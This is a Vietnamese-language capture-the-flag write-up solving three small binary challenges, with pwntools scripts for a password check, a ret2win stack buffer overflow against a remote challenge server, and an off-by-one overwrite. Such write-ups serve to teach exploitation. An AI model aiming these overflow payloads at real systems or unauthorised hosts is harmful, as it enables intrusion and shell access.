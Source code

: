 # Gainme
<details>
<summary> Gainme </summary>
 
## level 1
  ![image](https://user-images.githubusercontent.com/111769169/219845961-39a75598-d234-4da9-8477-5e22544c945c.png)  
  chỉ đơn giản là so sánh chuỗi ta nhập vào với ICTF4 là xong  
## level 2
  ![image](https://user-images.githubusercontent.com/111769169/219845852-185dbf47-5107-4a91-9026-251234e2f7b3.png)  
  đại loại là chuỗi s được lưu một chuỗi nào đó đã có trong chương trình  
  lúc gdb đến đoạn strlen ta thấy chương trình đang đếm chuỗi này
  ![image](https://user-images.githubusercontent.com/111769169/219846304-e4c7229a-72ff-441b-b384-d6832be083d6.png)
  cùng với đoạn  ![image](https://user-images.githubusercontent.com/111769169/219846526-67da47a2-c21f-4747-8ab6-46e8b6a493d5.png)  
  thì chúng ta khẳng định là nó đang so sánh thanh dl và al là chuỗi ta nhập vào với chuỗi trong gdb
## level 3
  ![image](https://user-images.githubusercontent.com/111769169/219846653-4e77e24c-933b-42b0-b798-86b63da1d513.png)
  ta thấy chương trình đang so sánh chuỗi nhập vào với 0xDEADBEEF
## level 4
  ![image](https://user-images.githubusercontent.com/111769169/219846707-f36bdcd7-58c0-4968-bd0d-1a7790c496a6.png)
  điều kiện strlen(s) phải lớn hơn 3
  đây thì đại loại giải phương trình bậc 3 =)))
  nghiệm là 1
# script
```python
from pwn import *
#dasDASQWgjtrkodsc
#-559038737
exe = ELF("./Gainme", checksec = False)
p = process(exe.path)

p.sendlineafter(b"0: ", b"ICTF4")                   #level1
p.sendlineafter(b"1: ", b"dasDASQWgjtrkodsc")       #level2
p.sendlineafter(b'2: ', p32(0xDEADBEEF)) #level3
p.sendlineafter(b'3: ', b'1')                       #level4
p.interactive()
```
## Chú ý
để đổi 1 số âm sang hex ta có thể p32(-10000, sign = True)

 </details>

# babyFlow
<details>
<summary> babyflow </summary>
 
  ta thấy hàm gets có thể đoán được nó có BOF
  ![image](https://user-images.githubusercontent.com/111769169/219847378-e4e3ddf8-5d26-4c29-8942-f3b0ddbb0e23.png)
  ___
  ở đây ta hàm strcpy() sẽ lấy chuỗi ta nhập vào và copy vào dest, mà dest cũng chỉ có 16byte và có hàm thực thi /bin/sh nên ta có thể BOF 
  ![image](https://user-images.githubusercontent.com/111769169/219847745-1b1e755a-971c-4086-9ec8-1886b295ecc9.png)
  bây giờ ta tìm offset để ret2win là 24  
  ![image](https://user-images.githubusercontent.com/111769169/219847816-83e0ff9c-1b99-4f52-9f4a-9be9adb00317.png)
```python3
from pwn import *

exe = ELF("./babyFlow", checksec = False)
#p = process("./babyFlow")

p = remote("143.198.219.171", 5000)

input()
payload = b'a' * 24 + p32(exe.sym['get_shell'])
p.sendlineafter(b' me?\n', payload)
p.interactive()
```
</details>

# passme
<details>
 <summary> passme </summary>
  ban đầu ta nghĩ nó sẽ so sánh 17.022023 với chuỗi ta nhập vào  
  tuy nhiên 17.022023 là long double còn trong file 32bit thì chỉ là float  
  đến đây em được hint là lỗi off-by-one offset là 68 và 1 byte null do hàm gets để lại nên địa chỉ ebp bị thay đổi và nhảy lung tung (giống dạng $rbp)  
  do là nhảy lung tung, có thể nhảy vào giữ payload nên ta có thể để payload toàn là ret về print_flag để tăng cơ hội nhảy vào print_flag  
 ```python3
 from pwn import *
exe = ELF("./passme", checksec = False)

p = process(exe.path)
payload = p32(exe.sym['print_flag']) *  17
p.sendafter(b'name: \n', payload)

p.interactive()
 ```
</detail>
